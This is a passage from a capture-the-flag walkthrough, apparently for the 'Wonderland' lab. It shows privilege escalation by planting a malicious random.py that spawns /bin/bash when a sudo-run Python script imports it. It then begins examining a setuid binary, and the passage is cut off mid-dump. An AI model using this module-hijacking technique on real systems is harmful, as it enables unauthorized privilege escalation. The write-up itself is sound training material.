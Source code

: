 
Ok, the script prints 10 lines from the poem at random. Notice the first line:

```
import random
``` 

The first place that Python checks for a module is the current working directory
(alice's home folder in our case). If it does not find the module there, it then
looks in system libraries and what not.
 
Knowing this, we can create our own `random.py` module that
`walrus_and_the_carpenter.py` will execute in order to become the rabbit user!


### random.py

Contents of our malicious random.py:

```
import os

os.system("/bin/bash")
```

A very simple script that executes `/bin/bash` to get a shell. Run as the rabbit
user:

```
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

Confirm that we are the rabbit user:

```
rabbit@wonderland:~$ whoami
rabbit
rabbit@wonderland:~$ id
uid=1002(rabbit) gid=1002(rabbit) groups=1002(rabbit)
```

### Becoming the hatter user

Time to look around. I checked the rabbit user's home directory and found the
setuid `teaParty` binary.

We can inspect it with `cat`:

```
rabbit@wonderland:/home/rabbit$ cat teaParty                                                                                                                                                                     
ELF>@0:@8 
         @@@@hHH==   88-==hp-=DDPtd
<<QtdRtd-==/lib64/ld-linux-x86-64.so.2GNUGNUu2U~4?e|"mnA4t 
emZ <v 5   
         &"libc.so.6setuidputsgetcharsystem__cxa_finalizesetgid__libc_start_mainGLIBC_2.2.5_ITM_deregisterTMCloneTable__gmon_start___ITM_registerTMCloneTableui
...truncated...
The Mad Hatter will be here soon./bin/echo -n 'Probably by ' && date --date='next hour' -RAsk very nicely
```
